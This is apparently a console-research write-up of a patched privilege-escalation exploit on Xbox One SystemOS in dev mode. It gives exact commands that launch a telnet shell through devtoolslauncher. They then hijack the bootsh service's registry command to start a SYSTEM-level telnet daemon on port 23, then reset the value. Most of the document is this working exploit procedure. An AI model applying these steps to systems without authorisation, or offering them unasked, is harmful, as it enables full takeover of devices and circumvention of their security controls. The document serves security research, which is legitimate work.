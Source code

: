 # SystemOS Elevation of privileges via VSProfiling account

## Metadata
|                             |                                                     |
|-----------------------------|-----------------------------------------------------|
|Release date                 |                                                 N/A |
|Author                       |                                   Xbox One Research |
|Classification               |                             Elevation of privileges |
|Patched                      |                                                 yes |
|Patch date                   |                                                 N/A |
|First patched system version |                                                 N/A |
|Source                       |                                                 N/A |
|Download                     |                                                 N/A |

## Info
Previously dev mode let us use the devtoolslauncher program to start a "slightly elevated" process.
After this registry could be modified.
This way it was possible to rewrite process execution path of the bootsh service to start a full-privileged process.

This writeup explains how to start a "slightly privileged" on port 24 and a full-privileged telnet daemon on port 23.

## Prerequisites
- Dev Mode
- Shell access

## Instructions
1. SSH to your console as **DevToolsUser** and  **VS Pairing Pin** as password.
2. Execute the following command to start a telnet-daemon on port 24 as User "VSProfilingAccount".
```
devtoolslauncher LaunchForProfiling telnetd "cmd.exe 24"
```
3. Start a telnet connection to Port *24*
4. Execute the following commands on this telnet connection, this will start a telnet daemon on port 23 as local administrator:
```
REG ADD HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Bootsh\Parameters\Commands /v Xrun /t REG_SZ /d "telnetd.exe cmd.exe 23" /f
sc start bootsh
```
5. Wait 10 seconds to make sure bootsh service started completely
6. Now reset the registry-value to it's standard value by executing the following
```
REG ADD HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Bootsh\Parameters\Commands /v Xrun /t REG_SZ /d "xrun.exe SystemBootTasks" /f
```
7. Start a **new** telnet connection to Port *23* - That's our awaited *SYSTEM*-shell